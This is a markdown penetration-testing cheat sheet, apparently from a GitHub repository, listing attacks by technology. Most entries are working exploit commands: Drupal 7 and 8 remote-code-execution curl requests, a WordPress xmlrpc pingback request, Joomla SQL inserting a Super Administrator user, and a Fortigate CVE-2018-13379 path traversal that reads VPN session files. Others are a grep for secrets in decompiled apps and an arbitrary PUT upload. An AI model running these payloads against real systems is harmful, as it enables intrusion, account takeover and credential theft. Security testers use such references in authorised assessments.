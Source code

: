 # Techno Specific

## **CMS**

### Tools

```sh
# cmsmap
git clone https://github.com/Dionach/CMSmap && cd CMSmap && pip3 install .
cmsmap.py <target> -o cmsmap.log

# wig
git clone https://github.com/jekyc/wig.git && cd wig && python3 setup.py install
Wig.py <target> -w wig.log 

# wpscan (need API key)
WPScan -v --proxy socks5://127.0.0.1:9090 -e u1-100,vp,vt --passwords rockyou.txt --api-token <API_key> --url <target>

# wpseku
git clone https://github.com/m4ll0k/WPSeku.git && cd WPSeku && pip install -r requirements.txt
python wpseku.py --target <target>

# droopescan
pip install droopescan
droopescan scan drupal -t 32 -u <target> [-U list_of_urls.txt]

# joomscan
joomscan -u <target>
```

---

### Wordpress

Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

**XMLrpc**

List methods

```sh
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

If there is pingback, try :

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

---

### Drupal

- intruder from 0 to 500 on /node/$

```bash
/imce
```

POC1 drupal 8

```bash
  curl -k -i '<target>/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

POC2 drupal 8

```bash
curl -k -i '<target>/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

POC3 drupal 7

```bash
 curl -k -s '<target>/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

---

### Joomla

Joomla 1.5

```bash
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```bash
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

---

## **Reactjs**

- [React Developer Tools](https://addons.mozilla.org/fr/firefox/addon/react-devtools/) (edit props/state/hooks values)

**Security Testers**: Inject JavaScript and JSON wherever you can and see what happens. 

**Developers**: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

---


## **Angularjs**

Check the bypassSecurityTrustX / innerHTML function

```bash
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

---

## **ckfinder**

```bash
ckfinder/ckfinder.html
```

---

## **Git**

- [GitTools Dumper](https://github.com/internetwache/GitTools/tree/master/Dumper)
- [git-dumper](https://github.com/arthaud/git-dumper)

```bash
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

---

## **Stormshield**

- [test for default password](https://github.com/jenaye/netasq-1300)

[Stormshield Documentation](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)
```bash
# Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) 
CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0
```

---

## **Fortigate**

- [CVE-2018-13379](https://www.exploit-db.com/exploits/47288)

```sh
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

---

## **Dana**

```bash
https://XXXX/dana-na/setup/psalinstall.cgi
```

## **SSL / TLS**

* [testssh.sh](https://github.com/drwetter/testssl.sh)

Openssl

```bash
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

Check Heartbleed

```bash
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

Check lucky13

```bash
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

---

## **Android**

Apktool

```bash
apktool d app_name.apk
```

Extract sensitive info

```bash
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```


## **Manual upload**

```bash
curl -i -X PUT -H "Content-Type: application/xml; charset=utf-8" -d @"/tmp/some-file.xml" http://<target>/newpage
```

